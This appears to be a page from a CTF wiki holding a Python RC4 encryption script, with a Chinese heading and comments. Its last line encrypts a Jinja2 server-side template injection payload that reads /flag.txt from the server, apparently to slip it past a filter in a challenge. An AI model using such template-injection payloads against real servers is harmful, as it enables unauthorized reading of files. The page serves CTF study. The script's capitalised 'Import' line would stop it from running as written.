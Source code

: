 # RC4加密脚本：
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



```plain
Import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    #print("加密后的输出(经过编码):")
    #print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag.txt').read()}}")



```




